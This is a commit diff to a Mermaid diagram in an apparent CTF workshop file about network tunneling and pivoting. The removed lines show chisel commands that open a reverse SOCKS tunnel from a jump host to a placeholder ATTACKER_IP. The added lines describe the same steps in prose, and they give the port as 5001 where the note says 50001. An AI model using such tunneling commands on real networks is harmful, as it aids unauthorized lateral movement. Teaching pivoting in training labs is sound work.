

One commit to Sophtix/hackeriot_ctf changed the second of 5 diagrams in network_tunneling_pivoting_workshop_diagrams.md. Above: the diagram before and after it, drawn with Mermaid. The commit also changed other lines of this file, not shown here.

Commit message:
updated diagrams

````diff
--- a/network_tunneling_pivoting_workshop_diagrams.md
+++ b/network_tunneling_pivoting_workshop_diagrams.md
@@ -57,11 +57,12 @@
 ```mermaid
 sequenceDiagram
   autonumber
   participant A as Attacker
   participant J as Jump
 
-  A->>A: chisel server -p 8000 --reverse
-  J->>A: chisel client ATTACKER_IP:8000 R:50001:socks
-  Note over A,J: SOCKS5 now at 127.0.0.1:50001
-  A->>J: SOCKS forwards traffic
+  A->>A: Open chisel server on port 8000
+  J->>A: Connect to chisel server and request the server to open port 50001 as socks
+  Note over A: SOCKS5 now at 127.0.0.1:50001
+  Note over A,J: 5001 -> chisel tunnel ->
+  A->>J: proxychains src - attacker:5001 - chisel server:8000 - chisel client - dest
 ```
````
